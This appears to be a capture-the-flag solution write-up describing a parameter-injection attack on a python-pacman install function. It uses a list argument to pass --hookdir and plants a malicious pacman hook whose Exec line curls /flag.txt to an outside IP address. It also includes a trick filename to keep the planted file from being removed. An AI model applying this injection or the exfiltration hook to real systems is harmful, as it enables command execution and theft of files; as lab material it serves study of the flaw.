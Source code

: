 # spoiler: this is the solution

# 0day in python-pacman (allows parameter injection)

- exploit code is: pacman.install(["--hookdir", "/tmp/pacman/", "wget"])
- we can use json to put a list into the install function instead of a string (string is not vuln)
- pacman hook looks like this

```
[Trigger]
Operation = Upgrade
Operation = Install
Operation = Remove
Type = Package
Target = *

[Action]
Description = Cleaning pacman cache...
When = PostTransaction
Exec = /bin/bash -c "curl --upload-file /flag.txt http://192.168.178.200:4444"
```

- we need to write a file (therefore I added /check)
- we need to throw an exception in check_output so that the remove() does not get called
- therefore we use ' -h.hook' as filename (calls --help and returns 2)
- hook files must end with .hook. The hook will only be executed if something will be installed (check if it's not already installed!)
- checkout exploit.py



